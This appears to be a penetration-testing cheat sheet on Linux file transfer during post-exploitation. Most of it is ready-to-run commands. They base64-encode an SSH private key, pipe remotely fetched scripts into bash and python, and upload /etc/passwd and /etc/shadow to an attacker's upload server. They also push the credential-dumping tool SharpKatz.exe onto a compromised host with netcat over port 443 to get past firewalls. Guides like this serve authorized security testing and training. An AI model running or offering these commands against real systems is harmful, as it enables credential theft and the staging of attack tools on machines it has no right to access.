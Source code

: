 ```yaml
---
title: Linux File Transer
category: Access
tags: [download, upload, wget, curl, base64]
tools: ['ftp', 'openssl', 'python']
---
```

# Linux File Transfer

## Download Operations

### Base64 Encoding / Decoding

**Check MD5 and Encode/Decode:**

```bash
# Check MD5 and encode
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

cat id_rsa |base64 -w 0;echo
---SNIP---

# Decode and check MD5
echo -n '---SNIP---' | base64 -d > id_rsa

md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```

---

### cURL / wget

Some payloads such as `mkfifo` write files to disk. Keep in  mind that while the execution of the payload may be fileless when you  use a pipe, depending on the payload chosen it may create temporary  files on the OS.

```bash
# Standard
wget https://host/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://host/LinEnum.sh

# Fileless
curl https://host/LinEnum.sh | bash
wget -qO- https://host/script.py | python3
```

---

### Download with Bash (/dev/tcp)

**Connect to the Target Webserver**:

```bash
# Connect
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print response
cat <&3
```

---

### Downloading Files Using SCP

`scp plaintext@192.168.1.10:/root/myroot.txt . `

---

## Upload Operations

### Web Upload

**Python upload server:**

```bash
# Create cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://192.168.1.10/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Alternative Web File Transfer Method

It is possible to stand up a web server using various languages. A  compromised Linux machine may not have a web server installed. In such  cases, we can use a mini web server. 

```bash
# Python3
python3 -m http.server

# python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000

# SCP
scp /etc/passwd user@192.168.1.10:/tmp/
```

---

## Miscellaneous File Transfer Methods

### File Transfer with Netcat and Ncat

> These methods can be reversed for upload to attack machine, if allowed through firewall 

Send to Compromised Machine

```bash
# Netcat
# Setup the listener on compromised host
nc -l -p 8000 > SharpKatz.exe
# Send the file
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

# Ncat
# Setup the listener on compromised host
ncat -l -p 8000 --recv-only > SharpKatz.exe
# Send the file
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

---

### Sending file as input   

```bash
# 443 is used due to firewall

# Netcat
# Sending file from attack machine
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# Receive the file
nc 192.168.49.128 443 > SharpKatz.exe

# Ncat - 443 is used due to firewall
# Sending file from attack machine
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# Receive the file
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---
